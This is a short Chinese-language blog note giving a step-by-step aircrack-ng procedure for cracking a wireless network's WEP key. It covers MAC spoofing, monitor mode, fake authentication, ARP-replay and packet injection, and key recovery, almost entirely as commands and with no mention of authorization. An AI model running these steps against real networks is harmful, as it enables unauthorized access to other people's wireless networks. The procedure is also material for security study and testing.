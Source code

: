 ```yaml
---
layout: post
title: "BackTrack破解无线网络WEP加密"
description: ""
category: get 
tags: [BackTrack]
---
```

{% include JB/setup %}

> 这只是一则笔记...

### 查看无线网卡信息
iwconfig
ifconfig -a

### 停止无线网卡
ifdown (interface)
ifdown wlan0

### 伪装MAC地址
macchanger –mac 11:22:33:44:55:66 (interface)
macchanger –mac 11:22:33:44:55:66 wlan0

### 开启无线网卡monitor模式
airmon-ng start (interface)
airmon-ng start wlan0

### 查看附近无线网络信息
airmon-ng (new interface)
airodump-ng mon0

### 对某无线网络抓包 (保留此窗口，名为"窗口D")
airodump-ng -c (channel) -w (dump-name) –bssid (BSSID) (new interface)
airodump-ng -c 6 -w network.out –bssid (BSSID的MAC) mon0

### 攻击测试，等待成功字样，成功后继续；如果没有返回，可能由于信号不好
aireplay-ng -1 0 -a (BSSID) -h (faked:mac) -e (essid) (new interface)
aireplay-ng -1 0 -a (BSSID的MAC) -h 11:22:33:44:55:66 mon0

### 开始攻击，观察"窗口D"的 #Data 的值的变化，通常等待3-5分钟，#Data 值将快速增加
aireplay-ng -3 -b (bssid) -h (faked:mac) (new interface)
aireplay-ng -3 -b (BSSID的MAC) -h 11:22:33:44:55:66 mon0

### 如果上面的命令没有导致#Data增加则尝试此命令
aireplay-ng -2 -F -p 0841 -c FF:FF:FF:FF:FF:FF -b (bssid) -h 11:22:33:44:55:66 (new interface)
aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b (BSSID的MAC) -h 11:22:33:44:55:66 mon0

### 当 #Data 达到5000可以开始破解
aircrack-ng -n (64/128) -b (BSSID) (dump-name)-01.cap
aircrack-ng -n 128 -b (BSSID的MAC) network.out-01.cap

### 破解完成需要停止网卡monitor模式，或者重启
airmon-ng stop mon0